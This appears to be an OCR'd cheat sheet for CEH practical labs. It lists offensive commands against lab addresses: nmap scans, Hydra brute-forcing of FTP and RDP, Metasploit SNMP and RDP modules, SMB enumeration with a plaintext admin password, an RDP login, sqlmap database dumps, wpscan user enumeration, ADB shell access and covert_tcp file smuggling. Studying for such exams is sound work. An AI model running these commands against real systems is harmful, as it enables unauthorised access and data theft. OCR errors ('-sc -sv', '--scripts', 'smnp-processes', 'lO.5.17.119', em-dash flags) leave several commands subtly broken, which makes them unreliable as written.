**Scanning Network using Nmap**

Scanning network Live Host (ping sweep): nmap -sP IP/CIDR  
Scanning Live Host without port scan in same subnet (ARP scan) : nmap -PR -sn IP/CIDR
Scripts + Version running on target machine: nmap -sC -sV IP/CIDR  
OS of the target: nmap -O IP  
All open ports of the target: nmap -p- IP/CIDR  
Specific port scan of the target: nmap -p<port-number> IP/CIDR  
Aggressive Scan: nmap -A IP/CIDR  
Scanning using NSE scripts: nmap --scripts <script_name> -p <port> IP/CIDR  
Scripts + Version + Ports + OS Scan (Overall): nmap -sc -sv -p- -A -v -T4 IPICIDR  
Use -Pn flag in case ping probes are blocked

**Brute force ftp**  
nmap -sc -p 21 192.135.117.3  
hydra -L /usr/share/wordlists/metasploit/canron_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.135.117.3 ftp  

**SNMP Check-enumeration**  
snmp-check 192.151.62.3 
nmap -sU -p 161 --script=smnp-processes 192.151.62.3  

**SNMP Exploit**  
msf5 > use auxiliary/scanner/snmp/snmp_login  
set RHOSTS 192.151.62.3
exploit  

**SMB Enumeration**  
nmap 10.4.29.134 (smb runns on 445 port)  
nmap -p 445 --script smb-enum-shares 10.4.29.134  
next step to Connect SMB using GUI Method  
next step Gredentials from ftp step  

**Enumerating users**  
nmap -p 445 --script smb-enum-users 10.4.29.134  
nmap -p 445 --script smb-enum-users --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting users from machine)    
nmap -p 445 --script smb-enum-groups --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting groups and users from machine)  

**What to Hack?**  
Network File shares  
Logged in Users details  
Workgroups  
security level informationl  
Domains & Services  

nmap -sC -sV -A -T4 -p445 10.4.29.134  
nmap -p 445 --script smb-enum-services --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134  

**Exploiting RDP Service**  
Remote Desktop Protocol : 3389  
Protocol used for remotely accessing the computers  

msfconsole  
use auxiliary/scanner/rdp/rdp_scanner  
set RHOSTS 10.5.17.119  
set RPORT 3333  
exploit (it show if RDP is running on this target)  
next step is to run Hydra tool to brute force  
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://lO.5.17.119 -s 3333  
next step to initialize an RDP session  
xfreerdp /u:administrator /p:qwertyuiop /v: 10.5.17.119:3333  

**NetBIOS Enumeration**  
Port - 137/138/139  
NBName: 137/UDP  
NBName: 137/TCP  
NBDatagram: 138/UDP  
NBSession: 139/TCP  
Network Basic Input Output System  
Facilitates and allows computer to connect over the local network, access shared
resources, such as files and printers, and to find each other.  


nmap -sV --script nbstat.nse 192.72.120.3  

**Wireshark > Pcap File Analysis**  

using filters in Wireshark : 
tcp.flags.syn==1  
click on a packet right click on it follow -> TCP Stream OR HTTP Stream (in the new window click on the right bottom to change Stream)  

Extract files with Wireshark :  
File -> Export Objects -> choose one from the available options  

Click Bottom left on Wireshark to show properties of the pcap file.  
Find Strings with CTRL+F  

**Steganography**  
TOOLS  
SNOW - For hiding and extracting hidden data from a text file  
Openstego - For hiding and extracting hidden data from an image file  
Covert TCP - For hiding data in TCP/IP packet headers  

SNOW  
Hide a file  
windows cmd : SNOW.EXE -C -m "You can clear the CEH Exam 9090' —p "pa$$word" Secret.txt Hiddensecret.txt  
HINT: When we press CTRL+A (choose all) using a text editor is possible to see spaces and new lines that are more than the actuall text.  
windows cmd : SNOW.EXE —C —p "pa$$word" Hiddensecret.txt (output will be the secret message)  

Openstego  
Openstego is a gui app to hide or extract files inside an image.  
Hint: extract process can produce file that maybe has a hashed value  

Covert TCP  
www-scf.usc.edu/~csa5301/downloads/covert_tcp.c (download save as "covert-tcp.c" and run)  
cc -o covert_tcp covert_tcp.c  
For receiving/listening: ./covert_tcp -dest <Dest-lP> -source <Source-lP> -source_port 9999 -dest_port 8888 -server -file /path/to/file.txt  
For sending: ./covert_tcp -dest <Dest-lP> -source <Source-lP> -source_port 8888 -dest_port 9999 -file /path/to/file.txt  

**Cryptography**  
Tools  
Hashmyfiles- For calculating and comparing hashes of files  
Cryptool - For encryption/decryption of the hex data - by manipulating the key length (https://www.youtube.com/watch?v=wywTyONpbMc&t=370s)    
BcTextEncoder- For encoding and decoding text in file (.hex)  
CryptoForge - For encrypting and decrypting the files  
VeraCrypt - For hiding and Encrypting the disk partitions  

**Hacking Web & Android**  
SQLMap - For finding SQL Injection Vulnerabilities  
Wpscan - Scanning and Finding issues in wordpress websites  
ADB For connecting Android devices to PC and binary analysis  
Burpsuite - For analysing and manipulating the traffic  

SQLMAP    

Using SQLMAP with BurpSuite. Right Click on request and save it as an item (when webapp is using Cookies etc.)  
$sqlmap -r req.txt --dbs (req.txt is the saved file from BurpSuite)  
$sqlmap -r req.txt -D DVWA --table (DVWA the name of the database, --table will give us names of tables)  
$sqlmap -r req. txt -D dvwa --dump 

WPSCAN  

$wpscan --url http://10.10.14.187/ --enumerate u  

ADB Tool (Android Debug Bridge)  
ADB suppose to be installed in a Windows machine using Power Shell  
C:\users\example-user>adb devices  
-output example-  
List Of devices attached  
192.168.0.100:5555  device  
C:\users\example-user>adb connect 192.168.0.100:5555  
-output example-  
already connected to 192.168. O. 100: 5555  
C:\users\example-user>adb shell  
device123#@:/ $ whoami (shows shell for permissions)  
device123#@:/ $ cd sdcard (navigate to sdcard)  
device123#@:/ $ ls (try to find the secret)
